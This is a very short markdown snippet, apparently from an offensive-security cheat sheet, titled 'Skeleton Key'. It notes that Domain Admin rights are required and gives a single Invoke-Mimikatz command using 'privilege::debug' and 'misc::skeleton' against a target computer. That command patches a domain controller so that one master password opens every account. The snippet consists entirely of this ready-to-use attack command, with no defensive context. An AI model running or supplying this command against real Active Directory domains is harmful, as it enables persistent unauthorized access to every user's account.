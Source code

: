 # Skeleton Key

**Create the skeleton key - Requires DA**

```
Invoke-MimiKatz -Command '"privilege::debug" "misc::skeleton"' -Computername <target>
```
